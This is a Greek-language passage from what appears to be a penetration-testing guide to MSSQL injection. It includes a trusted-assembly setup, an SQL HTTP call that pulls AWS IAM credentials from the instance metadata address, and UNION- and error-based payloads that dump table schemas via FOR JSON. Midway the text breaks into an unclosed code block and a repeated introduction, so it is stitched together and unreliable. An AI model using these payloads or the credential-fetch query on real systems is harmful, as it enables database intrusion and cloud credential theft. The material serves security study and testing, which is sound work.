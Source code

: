 Πριν εκτελέσετε την εντολή SQL `CREATE ASSEMBLY`, συνίσταται να εκτελέσετε το ακόλουθο απόσπασμα SQL για να προσθέσετε το SHA512 hash της συναρμολόγησης στη λίστα των εμπιστευμένων συναρμολογήσεων του διακομιστή (προβλέψιμο μέσω `select * from sys.trusted_assemblies;`).
```sql
EXEC sp_add_trusted_assembly 0x35acf108139cdb825538daee61f8b6b07c29d03678a4f6b0a5dae41a2198cf64cefdb1346c38b537480eba426e5f892e8c8c13397d4066d4325bf587d09d0937,N'HttpDb, version=0.0.0.0, culture=neutral, publickeytoken=null, processorarchitecture=msil';
```
Αφού προστεθεί με επιτυχία η συλλογή και δημιουργηθεί η συνάρτηση, μπορεί να χρησιμοποιηθεί ο παρακάτω κώδικας SQL για να πραγματοποιηθούν αιτήσεις HTTP:
```sql
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
SELECT dbo.http(@url);
```
### **Γρήγορη Εκμετάλλευση: Ανάκτηση Περιεχομένου Ολόκληρου Πίνακα με Μία Ερώτηση**

[Κόλπος από εδώ](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/).

Μια συνοπτική μέθοδος για την ανάκτηση του πλήρους περιεχομένου ενός πίνακα με μία ερώτηση περιλαμβάνει τη χρήση της δήλωσης `FOR JSON`. Αυτή η προσέγγιση είναι πιο συνοπτική από τη χρήση της δήλωσης `FOR XML`, η οποία απαιτεί ένα συγκεκριμένο mode όπως το "raw". Η δήλωση `FOR JSON` προτιμάται για τη συντομία της.

Παρακάτω παρουσιάζεται πώς να ανακτήσετε το σχήμα, τους πίνακες και τις στήλες από την τρέχουσα βάση δεδομένων:
```sql
https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--
In situations where error-based vectors are used, it's crucial to provide an alias or a name. This is because the output of expressions, if not provided with either, cannot be formatted as JSON. Here's an example of how this is done:

```sql
# MSSQL Injection

## Εισαγωγή

Η εισαγωγή SQL (SQL Injection) είναι μια ευρέως γνωστή ευπάθεια ασφαλείας που επιτρέπει σε επιτιθέμενους να εκτελέσουν κακόβουλες εντολές SQL σε μια εφαρμογή βάσης δεδομένων. Αυτό μπορεί να οδηγήσει σε αποκάλυψη ευαίσθητων πληροφοριών, τροποποίηση δεδομένων ή ακόμα και στην πλήρη κατάληψη του συστήματος.

## Επίθεση MSSQL Injection

Η επίθεση MSSQL Injection συμβαίνει όταν ο επιτιθέμενος εισάγει κακόβουλο SQL κώδικα σε μια εφαρμογή που χρησιμοποιεί τη Microsoft SQL Server ως βάση δεδομένων. Ο επιτιθέμενος εκμεταλλεύεται την αδυναμία της εφαρμογής να επεξεργαστεί σωστά τις εισαγόμενες τιμές, επιτρέποντάς του να εκτελέσει κακόβουλες εντολές SQL.

## Εκμετάλλευση MSSQL Injection

Για να εκμεταλλευτείτε μια ευπάθεια MSSQL Injection, μπορείτε να εισάγετε κακόβουλο SQL κώδικα σε μια παράμετρο εισόδου της εφαρμογής. Ο κακόβουλος κώδικας θα εκτελεστεί από τη βάση δεδομένων, παρέχοντάς σας πρόσβαση και έλεγχο στα δεδομένα.

Ένα παράδειγμα εκμετάλλευσης MSSQL Injection είναι η εισαγωγή του παρακάτω κώδικα στην παράμετρο εισόδου:

```
1' AND 1=(SELECT CONCAT_WS(0x3a, table_schema, table_name, column_name) FROM information_schema.columns FOR JSON AUTO)--
```

```